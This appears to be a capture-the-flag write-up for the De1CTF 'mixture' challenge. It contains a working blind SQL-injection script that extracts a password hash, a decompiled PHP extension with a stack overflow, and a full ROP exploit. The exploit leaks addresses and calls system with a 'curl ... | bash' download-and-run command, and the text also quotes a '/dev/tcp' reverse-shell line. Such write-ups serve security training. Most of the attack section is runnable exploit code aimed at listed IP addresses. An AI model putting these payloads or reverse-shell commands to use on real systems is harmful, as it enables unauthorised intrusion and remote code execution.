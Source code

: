 [中文](./readme_zh.md) | [English](./readme.md)

# mixture

After logging in, I found that member.php has \ <!-orderby-\> prompt, guessing that there is orderby injection. After a simple attempt, I found that when orderby = | 2, the displayed page is different. The injection script is as follows

```python
import requests

url = "http://49.51.251.99/index.php"
data = {
    "username":"xxxxx",
    "password":"xxxxxxx",
    "submit":"submit"
}
cookie ={
    "PHPSESSID": "sou26piclav6f99h79k1l5vmbn"
}
requests.post(url,data=data,cookies=cookie)
flag=''
url="http://49.51.251.99/member.php?orderby="
for i in range(1,33):
    for j in '0123456789abcdefghijklmnopqrstuvwxyz,':
        payload="|(mid((select password from member),{},1)='{}')%2b1".format(i,j)
        true_url=url+payload
        r=requests.get(true_url,cookies=cookie)
        if r.content.index('tom')<r.content.index('1000000'):
            print payload+' ok'
            flag+=j
            print flag
            break
        else:
            print payload
//18a960a3a0b3554b314ebe77fe545c85 
```

And password is md5 encrypted，After decryption, the password is `goodlucktoyou`

Minclude.so is a php extension written by the author.The function Minclude in search.php corresponds to zip_Minclude() in Minclude.so

Decompile the zip_Minclude you will find nothing here. Read the assembly you will find some easy junk instruction. Nop these codes and then you can decompile it.

```C
void __fastcall zif_Minclude(zend_execute_data *execute_data, zval *return_value)
{
  FILE *fp; // rbx
  unsigned int v3; // eax
  zend_value v4; // rax
  char *parameter; // [rsp+0h] [rbp-98h]
  size_t length; // [rsp+8h] [rbp-90h]
  char path[96]; // [rsp+10h] [rbp-88h]
  int v8; // [rsp+70h] [rbp-28h]
  char *v9; // [rsp+74h] [rbp-24h]

  parameter = 0LL;
  memset(path, 0, sizeof(path));
  v8 = 0;
  v9 = path;
  if ( (unsigned int)zend_parse_parameters(execute_data->This.u2.next, "s", &parameter, &length) != -1 )
  {
    memcpy(path, parameter, length);
    php_printf("%s", path);
    php_printf("<br>");
    fp = fopen(path, "rb");
    if ( fp )
    {
      while ( !feof(fp) )
      {
        v3 = fgetc(fp);
        php_printf("%c", v3);
      }
      php_printf("\n");
    }
    else
    {
      php_printf("no file\n");
    }
    v4.lval = zend_strpprintf(0LL, "True");
    return_value->value = v4;
    return_value->u1.type_info = (*(_BYTE *)(v4.lval + 5) & 2u) < 1 ? 5126 : 6;
  }
}
```

The function is very simple. `end_parse_parrmeters`will parse the parameters, the "s" specifies the type of the parameters is a string. 

Then copy the parameter into a variable on the stack. The length may bigger than path buffer size which may lead to stack overflow, and you can call `system` to reverse a shell.

v9 under the `path`  stores the address of the `path`, which is used to simplify the exploit. You can leak this address easily.

This function's purpose is to read any file and print on the website, so you can read /proc/self/maps and get the address of libc, and then you can ROP.

When the function returns, the stack will be balanced. When the function returns, the stack will be balanced. Later, when fork is called in the system function, the content below rsp will not be copied. So you shouldn't write the string here, but after the return address.

I don't know why `/bin/bash -i >& /dev/tcp/XXX.XXX.XXX.XXX/XXXX 0>&1` can't reverse a shell, you can do other way.

Notice that the address of the `path` is smaller than `rsp` when return, and next call `system` may cover it, so you should put your command behind.

```python
#!/usr/bin/python3
from pwn import *
import requests
import urllib
import struct

url = "http://134.175.185.244/select.php"
url = "http://49.51.251.99/select.php"
data = {
    "username":"admin",
    "password":"goodlucktoyou",
    "submit":"submit"
}
cookie ={
    "PHPSESSID": "p51gfmno1tv687igcc1ndq14vh"
}
res = requests.post(url,data=data,cookies=cookie)
print(res.status_code)
data = {
    'search':"a"*100,
    'submit':"submit"
}

res = requests.post(url,data=data,cookies=cookie)
print(res.content)
res = res.content.split(b'a'*100)[1]
stack = res[0:6]+b'\x00\x00'
stack = struct.unpack('<Q', stack)[0]
print("[+] stack:", hex(stack))

data = {
    'search': "/proc/self/maps", 
    'submit':"submit"
}
res = requests.post(url,data=data,cookies=cookie).content.split(b"\n")
for i in res:
    if b"libc-2.28.so" in i:
        libc_base = int(b"0x" + i[0:12], 16)
        break
print("[+] libc_base:", hex(libc_base))

bss_str = libc_base + 0x0000000001C0000
pop_rdi_ret = libc_base + 0x0000000000023a5f
read = libc_base + 0x00000000000EA450
system = libc_base + 0x00000000000449C0

payload = b"a"*136
payload += p64(pop_rdi_ret) + p64(stack+136+24) + p64(system) + b"curl https://shell.now.sh/xxx.xxx.xxx.xxx:xxxx|bash\x00"

data = {
    'search':payload, 
    'submit':"submit"
}
try:
    res = requests.post(url,data=data,cookies=cookie)
except:
    pass
```

After getting the shell, execute / readflag and calculate the value of the expression to get the flag

> De1CTF{47ae3396-f5ce-47ab-bb64-34b5154064c4}

